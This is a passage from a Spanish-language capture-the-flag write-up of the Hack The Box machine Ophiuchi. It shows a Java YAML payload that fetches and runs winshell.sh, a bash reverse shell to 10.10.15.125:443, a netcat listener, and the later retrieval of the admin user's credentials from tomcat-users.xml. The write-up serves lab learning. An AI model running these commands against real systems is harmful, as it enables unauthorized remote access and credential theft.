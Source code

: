   Lo que le estoy indicando es que a cuando ejecute el archivo haga un **curl** a mi maquina y descargue el archivo **winshell.sh** en la carpeta **/tmp** y una ves ahí ese archivo lo interprete con bash.

  El archivo **winshell.sh** contiene código en bash el cual entablara una **revershell** a mi maquina por el puerto **443**, este archivo lo almacenare en la raiz donde alojare mi servicio **http** con python3.

  ```
  #!/bin/bash
  bash -i >& /dev/tcp/10.10.15.125/443 0>&1
  ```

  Una vez que configure el payload procedo a compilar todo el payload con los comando:

  ```java
  javac src/artsploit/AwesomeScriptEngineFactory.java
  jar -cvf yaml-payload.jar -C src/ .
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/scan/exp3.png">
  </p>

  Una vez que tengo el payload compilado procedo a ponerme en escucha por el puerto **443** con **ncat** y levantar mi servicio web con **python3**

  ```bash
  nc -lvnp 443

  python3 -m http.server 80

  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/serv.png">
  </p>

  Excelente como se puede ver el código se interpreto y pude conseguir la shell con las instrucciones que le especifique en el payload del archivo **AwesomeScriptEngineFactory.java**.


  Ya dentro de la maquina veo que estoy como el usuario **Tomcat** y enumerando el sistema puedo ver que a nivel de usuarios de sistema de encuentra el usuario **admin** y en los archivo de configuración de el servicio web se puede encontrar las credenciales de este usuario ene el archivo **tomcat-users.xml**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/passwd.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/creds.png">
  </p>

## Privilege escalation
